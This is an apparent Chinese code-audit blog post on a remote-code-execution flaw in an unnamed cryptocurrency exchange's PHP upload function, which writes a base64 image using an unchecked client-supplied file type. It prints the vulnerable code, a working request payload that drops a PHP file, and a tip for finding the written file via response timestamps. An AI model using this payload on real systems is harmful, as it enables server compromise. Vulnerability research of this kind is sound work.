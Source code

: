 ```yaml
---
title: "某交易所RCE"
date: 2020-10-25T17:28:10+08:00
draft: false
tags: ['交易所']
categories: ['代码审计']
---
```


项目中碰到的一套交易所程序
<!--more-->

## 漏洞文件

Application/Home/Controller/UserController.class.php




## 漏洞代码

```perl
 public function base64_image_content($base64_image_content, $path)
    {
        //匹配出图片的格式
        if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $base64_image_content, $result)) {
            $type     = $result[2];
            $new_file = $path."/".date('Ymd', time())."/";
            if (!file_exists($new_file)) {
                //检查是否有该文件夹，如果没有就创建，并给予最高权限
                mkdir($new_file, 0700);
            }
            $new_file = $new_file.time().".{$type}";
            if (file_put_contents($new_file, base64_decode(str_replace($result[1], '', $base64_image_content)))) {
                //return '/'.$new_file;
                return time().'.'.$type.'';
            } else {
                return false;
            }
        } else {
            return false;
        }
    }
```


## 漏洞分析


传参 base64_image_content 和path变量，对传入的base64_image_content进行正则匹配，也就是让我们传一个base64形式的图片，和路径
如data:image/png;base64,xxx，把$result[2]的值赋给变量type。也就是/png这个的内容。生成一个以年月日命名的文件夹。生成一个时间戳的变量赋给new_file。然后对base64后的进行解码，写入文件。代码没判断传入的type头，所以可传入一个php文件




## 漏洞利用


Payload:

```perl
Pc/User/base64_image_content/?base64_image_content=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==&path=./
```


实战中发现不回显文件夹及文件名，可利用Burp发送Payload，查看返回包的时间戳，然后进行转换即可



